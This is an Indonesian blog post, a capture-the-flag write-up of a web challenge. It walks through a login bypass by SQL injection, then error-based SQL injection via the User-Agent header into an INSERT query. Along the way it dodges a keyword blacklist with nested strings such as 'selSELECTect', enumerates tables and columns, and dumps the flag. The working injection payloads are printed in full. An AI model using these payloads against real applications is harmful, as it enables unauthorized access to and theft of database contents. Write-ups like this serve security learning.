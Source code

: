 ```yaml
---
title: Simple CTF by Versailles
layout: post
date: '2020-01-31 17:00:00'
image: "/assets/images/markdown.jpg"
tag:
- CTF
- SQL Injection
star: true
category: blog
author: kosong
description: Simple CTF by Versailles Category
---
```


Jadi ceritanya kemaren lagi buka facebook nih , eh nemu postingan dari mas Verry yang isinya challenge berhadiah VPS untuk tiga orang pertama yang berhasil nyelesein challenge tersebut. Berikut penampakannya 
<img src="/assets/images/post/xcans/0.PNG">

Ya karena saya lagi gabut dan hadiahnya menarik yaudah saya coba akhirnya hehe .

Pertama ketika kita buka website tersebut maka akan muncul sebuah form yang berisi validasi flag sekaligus input ke table solver . 
<img src="/assets/images/post/xcans/1.PNG">

<p style="text-align:center">*pic taken after challenge closed</p>

Kemudian saya coba untuk view source , ternyata tetap tidak menemukan sesuatu yang menarik dan akhirnya berpikiran untuk melihat robots.txt .
<img src="/assets/images/post/xcans/2.PNG">
Eh ternyata bener ada sesuatu , yaudah selanjutnya saya coba buka url tersebut dan berikut penampakannya
<img src="/assets/images/post/xcans/3.PNG">
Terdapat sebuah form untuk login dan saya coba view source ternyata tetap tidak ada apa apa , jadi yang saya lakukan selanjutnya adalah mencoba fitur form login tersebut dengan username/pass asd/asd
<img src="/assets/images/post/xcans/4.PNG">
Kemudian saya langsung mencoba untuk melakukan SQL Injection untuk melakukan bypass login dengan payload berikut '=''or' dan berikut hasilnya. 
<img src="/assets/images/post/xcans/5.PNG">
Dilihat dari responsenya sepertinya terdapat proteksi yang mana ketika kita menginputkan basic payload SQL Injection untuk bypass admin maka akan terdeteksi dan menghasilkan response seperti diatas.

Hal yang terpikirkan selanjutnya oleh saya adalah mencoba membypassnya menggunakan simbol , jadi seluruh payload. Berikut payload nya '=''||' dan setelah itu kita coba masukkan payload tersebut ke form login
<img src="/assets/images/post/xcans/6.PNG">
Dan ternyata berhasil hehe , di tampilan dashboard terdapat sesuatu yang menarik yaitu ditampilkan IP kita dan juga User-Agent kita , kemudian saya coba untuk melakukan view source halaman dashboard tersebut.
<img src="/assets/images/post/xcans/7.PNG">
IP address dan juga User-Agent yang ditampilkan ternyata merupakan iframe dari file visitor.php , jadi selanjutnya langsung saja saya buka visitor.php
<img src="/assets/images/post/xcans/8.PNG">
Sepertinya disini kita disuruh untuk melakukan SQL Injection melalui User-Agent dengan asumsi bahwa User-Agent kita di insert/di simpan ke database . Untuk mempermudah dalam melakukan SQL Injection terhadap User-Agent disini saya menggunakan burpsuite .
<img src="/assets/images/post/xcans/9.PNG">
Setelah memindahkan request ke repeater maka selanjutnya saya coba menginputkan ' untuk mengecek apakah vuln terhadap SQL Injection atau tidak.
<img src="/assets/images/post/xcans/10.PNG">
Dan ternyata vuln hehe,  sekarang kita tinggal mencari payload yang pas supaya query kita bisa dijalankan. Disini saya coba menginputkan 'aaa untuk menebak seperti apa query yang dijalankan di server target.
<img src="/assets/images/post/xcans/11.PNG">
Dilihat dari errornya yaitu 'aaa', 'DMbuCcc1yQPsXJDaEgW7q') maka disini saya coba mengira ngira seperti apa query yang dijalankan di server target.

Query :
{% highlight sql %}
insert ... ('input kita' , 'DMbuCcc1yQPsXJDaEgW7q')
{% endhighlight %}
Jadi ketika kita menginput 'aaa maka yang terjadi pada query tersebut adalah seperti berikut

Query : 
{% highlight sql %}
insert ... (''aaa' , 'DMbuCcc1yQPsXJDaEgW7q')
{% endhighlight %}
Nah itulah yang menyebabkan error karena inputan yang kita masukkan tidak sesuai dengan querynya , jadi selanjutnya karena kita sudah dapat pandangan bagaimana query yang dijalankan di server maka selanjutnya kita coba untuk meracik payloadnya

Payload : 
{% highlight sql %}
1' , 'a')-- -
{% endhighlight %}
Jika payload tersebut dimasukkan ke Query harusnya berjalan dengan baik karena query nya akan menjadi seperti berikut

Query :
{% highlight sql %}
insert ... ('1' , 'a')-- -' , 'DMbuCcc1yQPsXJDaEgW7q')
{% endhighlight %}
sama dengan<br>
Query :
{% highlight sql %}
insert ... ('1' , 'a') 
{% endhighlight %}
karena setelah -- - akan dicomment querynya.

Selanjutnya langsung kita coba saja pada server target.
<img src="/assets/images/post/xcans/12.PNG">
Dan benar ternyata payload yang kita masukkan berhasil , jadi selanjutnya kita tinggal memasukkan payload SQL Injection ke payload yang sudah kita racik tadi dengan format 1' , Payload SQLi )-- - . Disini saya menggunakan extractvalue untuk melakukan SQL Injection terhadap query insert SQL . 

Payload : 
{% highlight sql %}
1' , 1 and extractvalue(1,concat(0x7e,(database()))))-- -
{% endhighlight %}
Result : 
<img src="/assets/images/post/xcans/13.PNG">

Dan payload kita berjalan dengan lancar, selanjutnya kita tinggal mencari tahu nama table yang ada pada database tersebut .

Payload : 
{% highlight sql %}
1' , 1 and extractvalue(1,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1))))-- -
{% endhighlight %}

Result : 
<img src="/assets/images/post/xcans/14.PNG">

Wadaw , ternyata gagal :' , dari errornya sepertinya terdapat beberapa string yang diblacklist jadi selanjutnya saya coba analisis string apa saja yang diblacklist tersebut. Untuk mengetesnya saya coba meginputkan querysql + sembarang string ke payload kita tadi untuk mengecek apakah diblacklist atau tidak , jika diblacklist maka string tersebut akan hilang / di ubah.

Payload : 
{% highlight sql %}
1',kosongxx)-- -
{% endhighlight %}

Result:
<img src="/assets/images/post/xcans/15.PNG">
kosongxx tidak terblacklist , ya emang karena itu cman percobaan aja hehe , karena selanjutnya kita akan melakukan pengecekan dengan string+'xx'

Payload : 
{% highlight sql %}
1',selectxx)-- -
{% endhighlight %}

Result :  
<img src="/assets/images/post/xcans/16.PNG">
Nah kan hilang , ternyata select diblacklist . Selanjutnya saya coba untuk melakukan bypass dengan cara sebagai berikut . 

Payload : 
{% highlight sql %}
1',selselectectxx)-- - 
{% endhighlight %}

Result: 
<img src="/assets/images/post/xcans/17.PNG">
Dan ternyata berhasil , maksud payload tersebut adalah select yang ditengah akan terhapus namun hasil dari penghapusan tersebut akan menghasilkan string select lagi .

Selanjutnya langsung kita coba kembali payload yang sudah kita ubah untuk membypass filter tersebut . Oh iya disini bukan cman select aja yang difilter namun or juga , dan cara bypassnya pun sama.

Payload : 
{% highlight sql %}
1',1 and extractvalue(1,concat(0x7e,(selSELECTect concat(table_name) FROM infoorrmation_schema.tables WHERE table_schema=database() limit 0,1))))-- - 
{% endhighlight %}

Result : 
<img src="/assets/images/post/xcans/18.PNG">

Setelah kita dapat nama tablenya maka selanjutnya kita coba lihat apa saja kolom yang ada ditable tersebut .

Payload : 
{% highlight sql %}
1',1 and extractvalue(1,concat(0x7e,(selSELECTect concat(column_name) FROM infoorrmation_schema.columns WHERE table_schema=database() and table_name='6TBG2GP9' limit 0,1))))-- - 
{% endhighlight %}

Result : 
<img src="/assets/images/post/xcans/19.PNG">

Selanjutnya kita tinggal cari kolom mana yang kira kira menyimpan flag dengan mengubah value dari limit untuk melihat nama kolom yang lain.

Dan akhirnya ketemu yaitu kolom ke-2  dengan nama FLAG_6A0ERSJ5 .

Payload : 
{% highlight sql %}
1',1 and extractvalue(1,concat(0x7e,(selSELECTect concat(column_name) FROM infoorrmation_schema.columns WHERE table_schema=database() and table_name='6TBG2GP9' limit 2,1))))-- - 
{% endhighlight %}

Result : 
<img src="/assets/images/post/xcans/20.PNG">

Selanjutnya kita tinggal melakukan dump terhadap isi kolom tersebut.

Payload : 
{% highlight sql %}
1',1 and extractvalue(1,concat(0x7e,(selSELECTect FLAG_6A0ERSJ5 from 6TBG2GP9 limit 0,1))))-- - 
{% endhighlight %}

Result : 
<img src="/assets/images/post/xcans/21.PNG">

Terakhir tinggal memasukkan flag tersebut ke validator di awal lalu inputkan nama + link facebook dan selanjutnya akan dihubungi oleh problem setter ( mas Verry ) untuk diberi VPS . Kebetulan karena saya first blood akhirnya saya mendapatkan VPS dengan ram 8 gb hehe :D 

Proof Reward : 
<img src="/assets/images/post/xcans/22.PNG">

Terimakasih untuk mas Verry (Versailles) karena sudah mengadakan challenge ini dan juga terimakasih atas hadiahnya hehe :D .
